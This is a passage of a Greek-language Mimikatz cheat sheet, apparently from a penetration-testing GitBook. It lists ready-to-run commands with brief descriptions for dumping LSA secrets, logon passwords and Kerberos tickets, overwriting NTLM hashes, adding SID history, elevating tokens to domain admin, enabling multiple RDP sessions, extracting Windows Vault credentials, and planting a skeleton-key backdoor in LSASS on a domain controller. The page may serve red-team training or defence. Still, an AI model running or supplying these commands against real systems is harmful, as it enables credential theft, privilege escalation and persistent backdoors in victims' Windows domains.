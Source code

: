 - **LSADUMP::Secrets**: Αποκρυπτογραφεί μυστικά που είναι αποθηκευμένα στο μητρώο.
- `mimikatz "lsadump::secrets" exit`

- **LSADUMP::SetNTLM**: Ορίζει ένα νέο NTLM hash για έναν χρήστη.
- `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`

- **LSADUMP::Trust**: Ανακτά πληροφορίες πιστοποίησης εμπιστοσύνης.
- `mimikatz "lsadump::trust" exit`

### Miscellaneous

- **MISC::Skeleton**: Εισάγει ένα backdoor στο LSASS σε έναν DC.
- `mimikatz "privilege::debug" "misc::skeleton" exit`

### Privilege Escalation

- **PRIVILEGE::Backup**: Αποκτά δικαιώματα αντιγράφου ασφαλείας.
- `mimikatz "privilege::backup" exit`

- **PRIVILEGE::Debug**: Αποκτά δικαιώματα αποσφαλμάτωσης.
- `mimikatz "privilege::debug" exit`

### Credential Dumping

- **SEKURLSA::LogonPasswords**: Εμφανίζει διαπιστευτήρια για συνδεδεμένους χρήστες.
- `mimikatz "sekurlsa::logonpasswords" exit`

- **SEKURLSA::Tickets**: Εξάγει Kerberos εισιτήρια από τη μνήμη.
- `mimikatz "sekurlsa::tickets /export" exit`

### Sid and Token Manipulation

- **SID::add/modify**: Αλλάζει SID και SIDHistory.
- Add: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
- Modify: *Δεν παρέχεται συγκεκριμένη εντολή για modify στο αρχικό κείμενο.*

- **TOKEN::Elevate**: Υποδύεται tokens.
- `mimikatz "token::elevate /domainadmin" exit`

### Terminal Services

- **TS::MultiRDP**: Επιτρέπει πολλαπλές συνεδρίες RDP.
- `mimikatz "ts::multirdp" exit`

- **TS::Sessions**: Λίστα συνεδριών TS/RDP.
- *Δεν παρέχεται συγκεκριμένη εντολή για TS::Sessions στο αρχικό κείμενο.*

### Vault

- Εξάγει κωδικούς πρόσβασης από το Windows Vault.
- `mimikatz "vault::cred /patch" exit`


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
